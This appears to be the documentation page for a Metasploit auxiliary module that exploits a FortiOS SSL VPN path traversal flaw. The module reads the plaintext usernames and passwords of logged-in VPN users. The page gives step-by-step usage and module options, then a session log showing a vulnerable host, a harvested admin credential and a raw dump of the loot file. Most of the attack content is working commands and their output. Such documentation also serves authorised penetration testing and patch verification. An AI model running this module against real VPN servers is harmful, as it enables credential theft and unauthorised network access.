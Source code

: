 ## Vulnerable Application
Fortinet FortiOS versions 5.4.6 to 5.4.12, 5.6.3 to 5.6.7 and 6.0.0 to 6.0.4 are vulnerable to
a path traversal vulnerability within the SSL VPN web portal which allows unauthenticated attackers
to download FortiOS system files through specially crafted HTTP requests.

This module exploits this vulnerability to read the usernames and passwords of users currently logged
into the FortiOS SSL VPN, which are stored in plaintext in the `/dev/cmdb/sslvpn_websession` file on
the VPN server.

## Verification Steps

1. Start msfconsole
2. Do: use auxiliary/gather/fortios_vpnssl_traversal_creds_leak
3. Do: set RHOSTS [IP]
4. Do: set RPORT 10443
5. Do: run

## Options

### DUMP_FORMAT

Dump format. (Accepted: raw, ascii)

### STORE_CRED

If set, then store gathered credentials into the Metasploit creds database.

## Scenarios

### FortiOS 6.0

```
msf6 > use auxiliary/gather/fortios_vpnssl_traversal_creds_leak
msf6 auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > show options

Module options (auxiliary/gather/fortios_vpnssl_traversal_creds_leak):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_FORMAT  raw              yes       Dump format. (Accepted: raw, ascii)
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        10443            yes       The target port (TCP)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED   true             no        Store credential into the database.
   TARGETURI    /remote          yes       Base path
   THREADS      1                yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host

msf6 auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > set RHOSTS *redacted*
RHOSTS => *redacted*
msf6 auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > run

[*] https://*redacted*:10443 - Trying to connect.
[+] https://*redacted*:10443 - Vulnerable!
[+] https://*redacted*:10443 - File saved to /home/gwillcox/.msf4/loot/20210226142747_default_*redacted*__761592.txt
[+] https://*redacted*:10443 - 1 credential(s) found!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > creds
Credentials
===========

host            origin          service            public  private    realm  private_type  JtR Format
----            ------          -------            ------  -------    -----  ------------  ----------
*redacted*  *redacted*  10443/tcp (https)  admin   *redacted*         Password

msf6 auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > cat /home/gwillcox/.msf4/loot/20210226142747_default_*redacted*__761592.txt
[*] exec: cat /home/gwillcox/.msf4/loot/20210226142747_default_*redacted*__761592.txt

var fgt_lang =
�/V^Pҽ�w���V^��V^��V^*redacted*admin*redacted*RemoteUSersfull-accessroot�бmsf6 auxiliary(gather/fortios_vpnssl_traversal_creds_leak) >

```
